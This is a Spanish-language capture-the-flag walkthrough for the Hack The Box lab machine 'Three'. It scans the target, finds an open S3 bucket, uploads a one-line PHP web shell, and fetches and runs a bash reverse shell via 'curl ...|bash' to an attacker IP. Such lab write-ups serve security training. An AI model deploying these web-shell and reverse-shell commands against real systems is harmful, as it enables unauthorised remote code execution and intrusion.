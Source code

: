 # Three

🗹 Verificar si el host está activo:

```shell
ping -c 1 10.129.28.79

PING 10.129.28.79 (10.129.28.79) 56(84) bytes of data.
64 bytes from 10.129.28.79: icmp_seq=1 ttl=63 time=1179 ms

--- 10.129.28.79 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 1179.219/1179.219/1179.219/0.000 ms
```

> Sistema operativo:  **Linux**

🗹 Identificar puertos abiertos y qué servicios están corriendo:

```shell
sudo nmap -p- -sS --open --min-rate 5000 -n -Pn -vv 10.129.28.79 -oG openPorts

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

🗹 Ejecutar scripts para recopilar información adicional:

```shell
sudo nmap -p 22,80 -sCV 10.129.28.79 -oN targeted

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17:8b:d4:25:45:2a:20:b8:79:f8:e2:58:d7:8e:79:f4 (RSA)
|   256 e6:0f:1a:f6:32:8a:40:ef:2d:a7:3b:22:d1:c7:14:fa (ECDSA)
|_  256 2d:e1:87:41:75:f3:91:54:41:16:b7:2b:80:c6:8f:05 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Toppers
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

| Puerto | Servicio | Versión                                                      |
| ------ | -------- | ------------------------------------------------------------ |
| 22     | ssh      | OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0) |
| 80     | http     | Apache httpd 2.4.29 ((Ubuntu))                               |

🗹 Agregar el dominio al archivo `/etc/hosts`:

```shell
10.129.28.79  thetoppers.htb
```

🗹 Enumerar subdominios:

```shell
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u thetoppers.htb -H "Host:FUZZ.thetoppers.htb" --hl 234
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://thetoppers.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                
=====================================================================

000000247:   404        0 L      2 W        21 Ch       "s3"                                                                                                                   
```

🗹 Agregar el subdominio al archivo `/etc/hosts`:

```shell
10.129.28.79  thetoppers.htb s3.thetoppers.htb
```

🗹 Verificar el recurso en el subdominio encontrado:

```
http://s3.thetoppers.htb

{"status": "running"}
```

🗹 Instalar la interfaz de línea de comandos de  **AWS**:

```shell
pip install aws-shell
```

🗹 Acceder al bucket mediante la interfaz de línea de comandos `aws`:

```shell
aws --endpoint-url http://s3.thetoppers.htb s3 ls s3://thetoppers.htb

                           PRE images/
2024-03-09 23:37:38          0 .htaccess
2024-03-09 23:37:38      11952 index.php
```

🗹 Crear un archivo `php` para que reciba mediante un parámetro en la URL un comando para que se ejecute en el sistema operativo:

```php
<? system($_GET["cmd"]); ?>
```

🗹 Copiar el archivo al bucket mediante la interfaz de línea de comandos:

```shell
aws --endpoint-url http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb

upload: ./shell.php to s3://thetoppers.htb/shell.php
```

🗹 Verificar si se ejecuta un comando pasado por parámetro en la URL:

```
http://thetoppers.htb/shell.php?cmd=id

id=33(www-data) gid=33(www-data) groups=33(www-data)
```

🗹 Crear una reverse shell:

```shell
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.51/1234 0>&1
```

🗹 Levantar un servidor con `python` en el directorio donde se encuentra la reverse shell:

```shell
python3 -m http.server 8000
```

🗹 Ponerse en escucha por un puerto a elección para recibir la reverse shell:

```shell
nc -lnvp 1234
```

🗹 Transferir la reverse shell con el comando `curl` desde la URL mediante el parámetro que recibe el archivo que se subió anteriormente al bucket:

`http://thetoppers.htb/shell.php?cmd=curl%2010.10.14.51:8000/shell.sh|bash`

🗹 Una vez establecida la conexión con el servidor configurar la terminal y personalizar el entorno de la terminal:

```shell
script /dev/null -c bash

ctrl + z

stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty size
stty rows 44 columns 183
```
## Flag

La flag se encuentra en el directorio `/var/www/flag.txt`.
